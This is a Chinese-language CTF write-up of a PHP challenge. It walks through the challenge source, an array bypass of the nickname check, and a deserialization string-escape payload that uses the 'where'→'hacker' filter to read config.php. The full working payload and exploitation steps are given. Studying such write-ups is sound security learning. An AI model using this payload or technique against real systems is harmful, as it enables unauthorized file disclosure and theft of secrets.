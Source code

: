 ##  前言

考点是反序列化字符串逃逸

##  wp

首先这个题，一进来就是一个登录平台，就属于一种基本的web网站的搭建，先登录再去后台，一般来说，可以sql注入之类的，但是我们习惯先看F12的源码，然后用御剑和dirsearch工具去扫描后台或者文件的泄露。

发现存在备份文件泄露，www.zip，得到源码



开始代码审计

config.php中发现了flag变量，看来题目目的是让我们读取config.php了。

我们来看下每个页面：
 index.php

```php
<?php
	require_once('class.php');
	if($_SESSION['username']) {
		header('Location: profile.php');
		exit;
	}
	if($_POST['username'] && $_POST['password']) {
		$username = $_POST['username'];
		$password = $_POST['password'];

		if(strlen($username) < 3 or strlen($username) > 16) 
			die('Invalid user name');

		if(strlen($password) < 3 or strlen($password) > 16) 
			die('Invalid password');

		if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');
			exit;	
		}
		else {
			die('Invalid user name or password');
		}
	}
	else {
    }
?>
```

register.php：

```php
<?php
	require_once('class.php');
	if($_POST['username'] && $_POST['password']) {
		$username = $_POST['username'];
		$password = $_POST['password'];

		if(strlen($username) < 3 or strlen($username) > 16) 
			die('Invalid user name');

		if(strlen($password) < 3 or strlen($password) > 16) 
			die('Invalid password');
		if(!$user->is_exists($username)) {
			$user->register($username, $password);
			echo 'Register OK!<a href="index.php">Please Login</a>';		
		}
		else {
			die('User name Already Exists');
		}
	}
	else {
?>
```

这两个个是登录页面和注册页面，要求我们输入的用户名和密码的长度都在3-16内。

然后看class.php,现了过滤的函数，一些特殊的符号会用下划线代替，一些特殊的关键字用hacker进行代替。

```php
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

		$safe = array('select', 'insert', 'update', 'delete', 'where');
		$safe = '/' . implode('|', $safe) . '/i';
		return preg_replace($safe, 'hacker', $string);
	}

```

class.php中就是对传入的数据进行过滤和进行数据库操作

然后我们看update.php

```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');
		
		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}
	else {
?>
```

就是对上传的数据和文件进行处理和过滤。

在这个页面我们要输入phone，要求是11为的数字。email格式要求类似于1@qq.com。nickname要求为数字字母下划线并且长度要小于等于10。注意：前两个都是不满足正则则退出，但是nickname是满足才退出，我们可以用数组绕过正则和strlen函数，比如 nickname=a!会die出去但是nickname[]=a!则会成功执行下面的语句。

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname'); 

```

有个关键点

```php
$user->update_profile($username, serialize($profile));
```

这儿序列化，后面有反序列化，我们可以利用这一点

看个有趣的实验

```
<?php 
$p='abc';
$f = serialize(array($p));
var_dump($f);
 ?>
string(20) "a:1:{i:0;s:3:"abc";}"
```

```php
$s = 'a:1:{i:0;s:3:"axx";}bc";}';
var_dump(unserialize($s));

输出：
array(1) {
  [0] =>
  string(3) "axx"
}
```

这就实现了反序列化字符串的逃逸

profile.php

```php
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}
	else {
		$profile = unserialize($profile);
		$phone = $profile['phone'];
		$email = $profile['email'];
		$nickname = $profile['nickname'];
		$photo = base64_encode(file_get_contents($profile['photo']));
?>
<!DOCTYPE html>
<html>
<head>
   <title>Profile</title>
   <link href="static/bootstrap.min.css" rel="stylesheet">
   <script src="static/jquery.min.js"></script>
   <script src="static/bootstrap.min.js"></script>
</head>
<body>
	<div class="container" style="margin-top:100px">  
		<img src="data:image/gif;base64,<?php echo $photo; ?>" class="img-memeda " style="width:180px;margin:0px auto;">
		<h3>Hi <?php echo $nickname;?></h3>
		<label>Phone: <?php echo $phone;?></label>
		<label>Email: <?php echo $email;?></label>
	</div>
</body>
</html>
<?php
	}
?>
```

这个php会把$nickname，$phone,$email输出出来

所以我们只需要把photo的文件名换成config.php，就可以把config.php的内容按照base64_encode的形式输出出来。



我们输入正常的电话邮箱绰号照片后，正常的序列化字符串如下：

```php
a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:8:"1@qq.com";s:8:"nickname";s:3:"abc";s:5:"photo";s:39:"upload/47bce5c74f589f4867dbd57e9ca9f808";}
```

需要的字符串

```php
a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:8:"1@qq.com";s:8:"nickname";s:3:"abc";s:5:"photo";s:10:"config.php";}
```

我们唯一能利用的地方就是 nickname我们可以输入 xxx";s:5:“photo”;s:10:“config.php”;}
这样就可以把后面的忽略掉但是这个xxx的长度我们要保证符合真实的长度。这里正好可以利用过滤里的方法，因为nickname是先序列化然后再过滤的，但是生成的序列化字符串的长度还是原来的。比如我们nickname输入的是where长度是5 经过过滤后变成hacker长度变成了6.这时我们就可以有一个长度的字符可以利用，每输入一个where就有一个
我们根据我们的目的字符串内容，需要填充的是";}s:5:"photo";s:10:"config.php";}长度为34,如果我们输入34个where则足够填充这些字符达到逃逸的目的
所以最终的payload为

```php
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

因为其他的几个过滤函数都是6个字符，所以只能用where。



因此我们的操作是：

1.先访问/register.php,注册

2.登录注册的

3.上传东西（符合条件），然后抓包，改参数，放包

4.访问prefile.php,找图片的源码，得到base64的编码，解码就是flag

